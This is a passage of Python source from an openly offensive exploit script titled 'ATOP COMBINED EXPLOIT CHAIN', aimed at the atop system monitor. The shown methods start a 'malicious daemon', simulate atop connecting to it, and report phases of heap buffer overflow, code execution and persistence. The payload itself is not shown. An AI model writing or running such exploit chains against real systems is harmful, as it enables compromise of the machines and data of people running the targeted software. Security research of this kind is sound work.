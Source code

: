         except Exception as e:
            print(f"[-] Simulation error: {e}")
    
    def verify_exploitation(self):
        """
        Verify successful exploitation
        """
        if self.exploit_success:
            print("\n" + "=" * 60)
            print("EXPLOITATION SUCCESSFUL!")
            print("=" * 60)
            print("[+] Phase 1: Automatic connection established")
            print("[+] Phase 2: Heap buffer overflow triggered")
            print("[+] Phase 3: Code execution achieved")
            print("[+] Target system compromised")
            return True
        else:
            print("\n[-] Exploitation failed or incomplete")
            return False
    
    def exploit(self):
        """
        Execute the complete exploit chain
        """
        print("=" * 60)
        print("ATOP COMBINED EXPLOIT CHAIN")
        print("Targeting TIER 1 Critical Vulnerabilities")
        print("=" * 60)
        print("Phase 1: Automatic Connection Exploitation")
        print("Phase 2: Heap Buffer Overflow")
        print("Phase 3: Code Execution & Persistence")
        print("=" * 60)
        
        # Start malicious daemon
        daemon_thread = self.start_malicious_daemon()
        
        # Simulate ATOP connecting
        self.simulate_atop_startup()
        
        # Verify results
        time.sleep(3)
        self.verify_exploitation()
        
        # Keep exploit running for demonstration
        try:
            print("\n[+] Exploit chain complete. Press Ctrl+C to exit.")
            while True:
                time.sleep(1)
        except KeyboardInterrupt:
            print("\n[+] Shutting down exploit...")
